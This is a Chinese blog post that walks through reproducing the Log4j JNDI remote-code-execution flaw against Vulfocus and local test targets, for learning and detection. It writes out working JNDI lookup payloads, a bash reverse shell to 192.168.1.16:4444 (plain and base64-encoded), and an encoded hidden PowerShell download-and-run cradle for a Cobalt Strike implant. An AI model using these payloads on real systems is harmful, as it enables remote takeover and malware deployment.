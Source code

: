 ```yaml
---
title: Apache Log4J漏洞复现
date: 2021-12-11 15:56:08
categories: 漏洞复现
tags: RCE
---
```


#### 简介

Log4j 是一款开源 的Java 日志记录工具，漏洞是由Log4j 的lookup功能造成的，该功能允许开发人员通过一些协议读取加载远程环境中的配置，并未对输入进行效验，导致攻击者可以通过加载自己构造的恶意类达到代码执行的目的。但此漏洞在实际环境中要成功利用貌似还跟java版本等因素有关。

<!--more-->

**受影响产品包括但不限于**

* Spring-Boot-strater-log4j2
* Apache Struts2
* Apache Solr
* Apache Flink
* Apache Druid
* ElasticSearch
* flume
* dubbo
* Redis
* logstash
* kafka

#### 漏洞复现

##### 1. 漏洞检测

本次漏洞复现采用Vulfocus靶场，docker部署

` docker pull vulfocus/log4j2-rce-2021-12-09:latest`

`docker run -d -P vulfocus/log4j2-rce-2021-12-09:latest`

nc监听或者dnslog

`nc -lvp 4444`

发送payload：`${jndi:ldap://192.168.1.16:4444}`

<img src="https://cdn.laohuan.art/Snipaste_2021-12-11_11-25-11.png" style="zoom: 67%;" />

nc收到请求，证明存在漏洞

![](https://cdn.laohuan.art/Snipaste_2021-12-11_11-25-22.png)

##### 2.漏洞利用

###### Linux反弹shell

1.利用工具:[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/bkfish/Apache-Log4j-Learning/blob/main/tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)

2.反弹shell

`bash -i >& /dev/tcp/192.168.1.16/4444 0>&1`

base64编码:[https://www.jackson-t.ca/runtime-exec-payloads.html/](https://www.jackson-t.ca/runtime-exec-payloads.html/)

![](https://cdn.laohuan.art/Snipaste_2021-12-11_11-28-52.png)

得到编码后的反弹脚本

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}`

3.nc监听

`nc -lvp 4444`

4.使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar开启监听

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i} " -A 192.168.1.16`

5.发送paylaod，由于此靶场是Spring-Boot-strater-log4j2搭建环境，所以采用此payload,不同java版本选择相应相应的监听规则。

`${jndi://rmi://192.168.1.16:1099/whcpug}`，

6.成功收到shell

<img src="https://cdn.laohuan.art/Snipaste_2021-12-11_11-29-57.png"  />

###### Windows cs 上线

windows使用[漏洞环境](https://mp.weixin.qq.com/s/jCHJCiZXbBnXfoMcyMDgPQ)分享的靶场，已将漏洞环境编译为jar包。

1.首先测试是否能正常执行命令，弹出计算器作为示例

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 192.168.1.16`

![](https://cdn.laohuan.art/Snipaste_2021-12-11_12-21-19.png)

2.使用靶场环境发送paylaod,成功弹出计算器

`java -jar LogTest.jar ${jndi:ldap://192.168.1.16:1389/arvhzz}`

![](https://cdn.laohuan.art/Snipaste_2021-12-11_12-21-38.png)

3.cs生成powershell上线代码，并bash64编码

![](https://cdn.laohuan.art/Snipaste_2021-12-11_14-30-05.png)

4.使用工具开启监听

```powershell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAAIgBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQA2ADoAOAAwAC8AYQAnACkAKQAiAA==" -A 192.168.1.16
```

5.发送paylaod

`java -jar LogTest.jar  ${jndi:ldap://192.168.1.16:1389/kmelx9}`

![](https://cdn.laohuan.art/Snipaste_2021-12-11_14-29-43.png)

6.cs成功上线

![](https://cdn.laohuan.art/Snipaste_2021-12-11_14-29-14.png)

#### 相关漏洞检测工具

* [https://github.com/inbug-team/Log4j_RCE_Tool/releases/tag/Apache_Log4j_RCE0.2](https://github.com/inbug-team/Log4j_RCE_Tool/releases/tag/Apache_Log4j_RCE0.2)
* https://github.com/tangxiaofeng7/BurpLog4j2Scan
* [Log4j2 Vuln Detector (chaitin.cn)](https://log4j2-detector.chaitin.cn/)

#### 参考链接

1. [https://github.com/fengxuangit/log4j_vuln](https://github.com/fengxuangit/log4j_vuln)
2. [https://github.com/bkfish/Apache-Log4j-Learning](https://github.com/bkfish/Apache-Log4j-Learning)
3. [log4j漏洞复现环境分享 (qq.com)](https://mp.weixin.qq.com/s/jCHJCiZXbBnXfoMcyMDgPQ)
4. [Log4J 漏洞复现+漏洞靶场 (qq.com)](https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ)


